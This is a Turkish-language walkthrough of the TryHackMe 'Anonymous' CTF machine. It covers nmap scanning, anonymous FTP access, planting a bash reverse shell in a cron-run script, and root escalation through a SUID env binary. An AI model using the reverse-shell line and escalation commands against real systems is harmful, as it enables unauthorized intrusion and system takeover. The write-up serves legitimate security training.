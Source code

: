 ```yaml
---
title: "Anonymous Makine Çözümü"
date: "2025-03-22"
tags: ["ctf", "tryhackme"]
---
```


Merhabalar, bu yazımda sizlere [TryHackMe](https://tryhackme.com/) platformunda bulunan "Anonymous" isimli makinenin çözümü anlatacağım. Keyifli Okumalar...

1 - *Nmap* aracını kullanarak makine üzerindeki açık portlar ve servisler hakkında detaylı bilgi ediniyorum. 

```shell
> nmap -sS -sV 10.10.229.39
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-05 15:40 +03
Nmap scan report for 10.10.229.39
Host is up (0.063s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.99 seconds
```

2 -  Nmap aracını kullanarak Anonymous FTP testi yapıyorum. FTP servisine anonymous:anonymous bilgileri ile giriş yapılabildiğini görüyorum.

```shell
> nmap --script ftp-anon -p 21 10.10.229.39                                                                        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-05 15:42 +03
Nmap scan report for 10.10.229.39
Host is up (0.13s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]

Nmap done: 1 IP address (1 host up) scanned in 1.44 seconds
```

3 - FTP  servisi içerisindeki dosyaları indiriyorum.

```shell
> ftp 10.10.229.39
*
ftp> cd scripts
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||41705|)
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1075 Jun 05 12:43 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> mget *
```

4 - *clean.sh* dosyasının içeriğini incelediğimde bu scriptin düzenli olarak çalıştırıldığını ve çalışma sonuçlarının da ftp  sunucusuna yüklendiğini anlıyorum. Ben de bu dosyasının içerisine bir reverse shell yükleyip tekrar ftp sunucusuna yükleyerek bir shell elde etmeye çalışacağım.

```system
> cat > clean.sh << EOF
#!/bin/bash
bash -i >& /dev/tcp/XX.XX.XX.XX/4444 0>&1
```

5 - Düzenlediğim dosyayı tekrar ftp servisine yüklüyorum.

```
ftp> cd scripts
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||24385|)
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1290 Jun 05 12:48 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> put clean.sh
```

6 - user.txt dosyasını okuyarak ilk bayrağımı elde ediyorum.

```system
> nc -lvnp 4444                                                                                                    
Listening on 0.0.0.0 4444
Connection received on 10.10.229.39 54050
bash: cannot set terminal process group (1281): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ ls
ls
pics
user.txt
namelessone@anonymous:~$ cat user.txt
cat user.txt
***CENSORED***
```

7 - Sudo yetkilerine sahip ve SUID biti ayarlanmış dosyaları bulmaya çalışıyorum.

```system
namelessone@anonymous:~$ find / -perm -u=s -type f 2>/dev/null
*
/usr/bin/env
*
```

8 - GTFObins sitesinden "env" komutu için sudo kullanıcısına geçmeye yarayan komutu buluyorum. Sudo kullanıcısına geçtikten sonra ikinci bayrağı da elde ederek odayı tamamlıyorum.

```system
namelessone@anonymous:~$ env /bin/sh -p
env /bin/sh -p
whoami
root
cat /root/root.txt
***CENSORED***
```